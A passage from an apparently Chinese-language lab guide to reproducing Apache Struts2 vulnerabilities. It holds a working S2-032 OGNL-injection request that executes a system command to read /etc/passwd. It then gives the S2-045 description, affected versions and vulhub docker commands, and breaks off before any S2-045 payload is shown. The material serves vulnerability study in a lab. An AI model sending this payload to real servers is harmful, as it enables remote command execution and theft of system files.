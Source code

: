 
任意命令执行 PoC，读取 `/etc/passwd` 文件

```
/index.action?method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding%5B0%5D),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd%5B0%5D).getInputStream()).useDelimiter(%23parameters.pp%5B0%5D),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp%5B0%5D,%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&pp=%5C%5CA&ppp=%20&encoding=UTF-8&cmd=cat%20/etc/passwd
```

![s2-032-3](images/s2-032-3.png)

## S2-045

在使用基于 Jakarta 插件的文件上传功能时，有可能存在远程命令执行。恶意用户可在上传文件时通过修改 HTTP 请求头中的 Content—Type 值来触发该漏洞，进而执行系统命令。

官方公告：[S2-045](https://cwiki.apache.org/confluence/display/WW/S2-045)

### 影响版本

- [x] Struts 2.3.5 – 2.3.31
- [x] Struts 2.5 – 2.5.10

### 漏洞复现

运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-045
docker-compose up -d
```
